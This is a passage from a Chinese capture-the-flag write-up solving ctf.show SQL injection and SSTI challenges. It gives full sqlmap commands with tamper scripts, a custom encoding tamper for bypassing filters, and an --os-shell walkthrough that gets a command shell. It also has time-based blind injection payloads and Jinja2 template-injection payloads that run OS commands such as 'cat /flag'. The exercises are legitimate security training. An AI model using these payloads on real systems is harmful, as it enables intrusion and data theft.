python sqlmap.py -u "http://aad3c1cc-6ea7-4f2e-b6bb-5f4eb5217a53.challenge.ctf.show/api/index.php" --method=PUT --data="id=1" --referer http://aad3c1cc-6ea7-4f2e-b6bb-5f4eb5217a53.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="PHPSESSID=le9m5vpq43p9n9q5kmiobs77na" --safe-url="http://aad3c1cc-6ea7-4f2e-b6bb-5f4eb5217a53.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flaxca --dump --batch --tamper space2comment.py
```


#### web208

题目不但将括号过滤，还将payload语句的`select`全部移除，可以使用大小写绕过，在`tamper`中的对应脚本是`randomcase.py`

payload：

```
python sqlmap.py -u "http://3c2da726-29ce-4020-b0ef-be885d942ab0.challenge.ctf.show/api/index.php" --method="PUT" --data id=1 --referer ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=le9m5vpq43p9n9q5kmiobs77na" --safe-url="http://3c2da726-29ce-4020-b0ef-be885d942ab0.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flaxcac --dump --batch --tamper space2comment.py,randomcase.py
```


#### web209

题目将` |*|=`过滤掉了，所以原来的注释符`/**/`代替空格不能用了，但还能用`%09 %0a %0d`之类的，这里用`%09`，但是在tamper文件夹中好像没有注释符以外的空格替换脚本，所以要手动将原来的`space2comment.py`文件里面的`/**/`替换为`%09`并保存为新文件命名为`space09`，payload如下：

```
python sqlmap.py -u "http://763a4245-94bc-427a-9ab6-d7f125b3fb01.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer ctf.show --headers="Content-Type: text/plain" --safe-url="http://763a4245-94bc-427a-9ab6-d7f125b3fb01.challenge.ctf.show/api/getToken.php" --cookie="PHPSESSID=sd8fqgn69dule88d22o3tml5ng" --safe-freq=1 -D ctfshow_web -T ctfshow_flav --dump --tamper equaltolike.py,space09.py
```


#### web210

本题个人认为十分阴间，返回逻辑

```
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
```

将payload进行base64编码后进行反转，再解码再反转，其tamper脚本如下

```
import string
import base64

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):

     retVal = payload

     if payload:
         retVal = base64.b64encode(payload[::-1].encode('utf-8'))
         retVal = base64.b64encode(retVal[::-1]).decode('utf-8')

     return retVal
```

payload：

```
python sqlmap.py -u "http://61e8b720-8a70-4e03-94a6-6ce0c90d0d64.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer ctf.show --headers="Content-Type: text/plain" --safe-url="http://61e8b720-8a70-4e03-94a6-6ce0c90d0d64.challenge.ctf.show/api/getToken.php" --cookie="PHPSESSID=ukh0v90faqg7cfki30fbh30tqn" --safe-freq=1 -D ctfshow_web -T ctfshow_flavi --dump --tamper 2strrev2base64
```


#### web211

本题在上一题的基础上增加了空格过滤，所以上一题的脚本和`space2comment`一起用，需要注意的是`space2comment`需要放在前面

payload：

```
python sqlmap.py -u "http://e97b374e-c0e6-477c-8d43-813537fccf68.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer ctf.show --headers="Content-Type: text/plain" --safe-url="http://e97b374e-c0e6-477c-8d43-813537fccf68.challenge.ctf.show/api/getToken.php" --cookie="PHPSESSID=rk1kkqv2aftb8mff7mfubv70n0" --safe-freq=1 -D ctfshow_web -T ctfshow_flavia --dump --tamper space2comment.py,2strrev2base64.py
```


#### web212

本题就是web209与web210的结合(甚至等于号没过滤)，用这两题的脚本即可

payload：

```
python sqlmap.py -u "http://cfa64347-ab8e-455e-ba71-8cb373f81729.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer ctf.show --headers="Content-Type: text/plain" --safe-url="http://cfa64347-ab8e-455e-ba71-8cb373f81729.challenge.ctf.show/api/getToken.php" --cookie="PHPSESSID=8h3skc6f165vvt7rb1mh3lhjnn" --safe-freq=1 -D ctfshow_web -T ctfshow_flavis --dump --tamper space09.py,2strrev2base64.py
```


#### web213

本题是利用`--os-shell`来getshell，在上一题的payload中加入`--os-shell`即可：

```
python sqlmap.py -u "http://e7270ed1-4355-468e-b4c5-36df528e4593.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer ctf.show --headers="Content-Type: text/plain" --safe-url="http://e7270ed1-4355-468e-b4c5-36df528e4593.challenge.ctf.show/api/getToken.php" --cookie="PHPSESSID=d0vpru2rdi9t84u3sb9c4ai1tt" --safe-freq=1 --os-shell -D ctfshow_web --tamper space09.py,2strrev2base64.py
```

回车运行之后会弹几个问题，直接默认回车就行，在

```
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
```

*解释：*

```
选项 [1]（常用位置） 	#这是一系列默认或常见的位置，像/var/www/、/var/www/html、/var/www/htdocs等。
选项 [2]（自定义位置）
选项 [3]（自定义目录列表文件）
选项 [4]（暴力搜索）
```

这里点2回车，然后输入路径`var/www/html/`，直接反弹了一个shell，可以直接进行命令执行

输入`ls`查看目录，没有发现东西，再输入`ls /`查看根目录，发现一个叫`ctfshow_flag`的文件，直接`cat /ctfshow_flag`读取拿到flag

**对于 mysql 数据库，sqlmap 的 --os-shell 参数就是写入两个 php 文件，其中一个是提供文件上传功能的文件，之后再上传一个是用于进行命令执行的文件，也就是最后反弹给我们的 shell。**

> 但是，对于 --os-shell 能利用也是有一定条件的，一般需要是高权限数据库用户，并且需要知道网站的绝对路径，具有写入文件的权限，还有一些其他条件。


### 时间盲注

####  web214

用`sleep()`函数来判断注入是否成功

在盲注的脚本中多用`try-except` 块来进行判断操作

但是数据库、表、列这些结果跑出来有时会十分奇怪，问群里说是延时问题，要手动调

payload：

```
if(substr((select flaga from ctfshow_flagx limit 1),{},1)='{}',sleep(2.6),1)#
```


#### web215

题目说用了单引号，不难猜到是用单引号将payload进行了包裹，所以要进行手动闭合，再上一题的payload前加上`' or `就行

payload：

```
' or if(substr((select flagaa from ctfshow_flagxc limit 1),{},1)='{}',sleep(2.6),1)#
```


#### web216

题目说查询语句是

```
 where id = from_base64($id);
```

这里我只想着将payload编码解码

官方的payload是在web214的payload前加入`'YWJj') or `（`YWJj`就是`abc`的base64编码）将`from_base64`函数进行手动闭合然后后面可以正常运行，我这里直接用1

payload：

```
1) or if(substr((select flagaac from ctfshow_flagxcc limit 1),{},1)='{}',sleep(2.6),1)#
```


#### web217

题目将`sleep()`过滤掉了，可以用`benchmark()`，payload：

```
1) or if(substr((select flagaabc from ctfshow_flagxccb limit 1),{},1)='{}',benchmark(4000000,md5(1)),1)#
```


## SSTI

#### web361

进入是页面


猜测是`hello user_name`，在GET处传入`?name={{7*7}}`回显


验证猜想，则可以构造rce语句

```
GET:?name={{().__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__['popen']('ls').read()}}
GET:?name={{().__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__['popen']('ls /').read()}}
```

默认目录没东西，在根目录找到flag文件，直接读：

```
GET:?name={{().__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

拿到flag


构造payload的方法：（直接偷别人的）


方法有很多：

- 使用子类可以直接调用的函数来打

payload：

```
?name={{''.__class__.__base__.__subclasses__()[94]["get_data"](0,"/flag")}}
?name={{''.__class__.__base__.__subclasses__()[407]('cat /flag',shell=True,stdout=-1).communicate()[0].strip()}}
```

- 使用重载函数

payload：

```
?name={{''.__class__.__base__.__subclasses__()[290].__init__.__globals__['os'].popen('cat /flag').read()}}
?name={{''.__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('ls').read()}}
?name={{''.__class__.__base__.__subclasses__()[292].__init__.__globals__['linecache']['os'].popen('ls /').read()}}}}
```

- 使用内嵌函数

payload：

```
?name={{''.__class__.__base__.__subclasses__()[446].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
```


#### web362


模糊测试发现过滤了2和3，用上面的方法就行
